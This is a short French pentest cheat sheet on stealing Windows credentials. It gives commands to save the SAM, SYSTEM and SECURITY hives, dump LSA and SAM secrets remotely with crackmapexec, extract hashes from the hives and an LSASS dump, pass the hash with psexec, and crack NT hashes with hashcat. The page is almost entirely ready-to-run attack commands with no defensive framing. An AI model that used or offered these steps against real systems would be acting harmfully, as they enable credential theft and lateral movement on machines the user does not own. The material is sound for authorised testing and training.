 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

### Dump LSASS
```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administratur@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administratur@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
